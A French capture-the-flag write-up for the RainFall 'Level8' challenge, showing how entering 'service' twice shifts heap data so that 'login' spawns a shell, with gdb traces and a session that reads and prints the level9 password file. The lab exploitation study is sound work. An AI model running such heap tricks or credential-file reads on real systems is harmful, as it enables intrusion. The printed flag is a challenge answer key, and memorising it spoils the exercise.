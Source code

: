 # Level8

On constate que le programme est une boucle qui change de comportement en fonction des entrees clavier.
Le programme verifie que "auth " est entre pour initialise "auth" a 0 a l'adresse "0x804a008"

Quand nous entrons "service" une premiere fois nous ecrivons une adresse sur le tas a auth+4 ("0x804a018").
Il suffit d'entrer une nouvelle fois service pour entrer une adresse a auth+8 ("0x804a028").

En entrans login nous passons donc dans la condition et comme auth[8] != 0 , un bash est lancé.

```
0x804a028:      0x00000000
(gdb) c
Continuing.
service
0x804a008, 0x804a028

Breakpoint 1, 0x08048596 in main ()
(gdb) x/x 0x804a028
0x804a028:      0x0000000a <=== apres deuxieme "service"
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```